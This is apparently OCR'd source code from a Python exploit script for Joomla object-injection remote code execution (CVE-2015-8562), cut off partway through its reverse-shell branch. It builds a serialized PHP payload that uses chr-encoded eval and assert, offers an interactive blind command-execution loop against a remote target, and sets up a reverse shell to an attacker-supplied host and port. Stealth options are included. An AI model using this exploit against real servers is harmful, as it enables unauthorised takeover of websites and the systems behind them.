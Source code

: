     def php_str_noquotes(data):
        #Convert string to chr(xx).chr(xx) for use in php
        encoded = ""
        for char in data:
            encoded += "chr({0}).".format(ord(char))

        return encoded[:-1]

    def generate_payload(php_payload):
        php_payload = "eval({0})".format(php_str_noquotes(php_payload))
        terminate = '\xf0\xfd\xfd\xfd';
        exploit_template = r'''}__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";'''
        injected_payload = "{};JFactory::getConfig();exit".format(php_payload)    
        exploit_template += r'''s:{0}:"{1}"'''.format(str(len(injected_payload)), injected_payload)
        exploit_template += r''';s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}''' + terminate

        return exploit_template


    def main():
        parser = argparse.ArgumentParser(prog='joomla-cve-2015-8562.py', description='\033[1;37;10mJoomla Object Injection RCE CVE-2015-8652')
        parser.add_argument('-t', dest='RHOST', required=True, help='\033[1;37;10mRemote Target Joomla Server (http://<target ip>)')
        parser.add_argument('-l', dest='LHOST', help='\033[1;37;10mLocal IP for Reverse Shell')
        parser.add_argument('-p', dest='LPORT', help='\033[1;37;10mLocal Port for Reverse Shell')
        parser.add_argument('--cmd', dest='cmd', action='store_true', help='\033[1;37;10mDrop into blind RCE')
        parser.add_argument('--u', dest='method', action='store_true', help='\033[1;37;10mSwitch from X-Forwarded-For to User-Agent (less stealthy)')
        parser.add_argument('--b', dest='bash', action='store_true', help='\033[1;37;10mSwitch from Python reverse shell to Bash')
        parser.add_argument('--proxy', dest='proxy', default='None', help='\033[1;37;10mIP of web proxy to go through (http://127.0.0.1:8080)')
        args = parser.parse_args()
        
        if args.proxy is not None:
            proxyDict = { "http"  : args.proxy, "https" : args.proxy }
        else:
            proxyDict = {}
        if args.cmd:
            print "\033[1;37;10m[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: {}".format(args.RHOST)
            print "\033[1;32;10m[+] Dropping into shell-like environment to perform blind RCE"
            while True:
                command = raw_input('\033[1;37;10m$ ')
                cmd_str = "system('{}');".format(command)
                pl = generate_payload(cmd_str)
                print get_url(args.RHOST, pl, args.method, proxyDict)

        # Spawn Reverse Shell using Netcat listener & Python shell on victim
        elif args.LPORT and args.LPORT:
            shell_name = id_generator()
            connection = "'{}', {}".format(args.LHOST, args.LPORT)
            
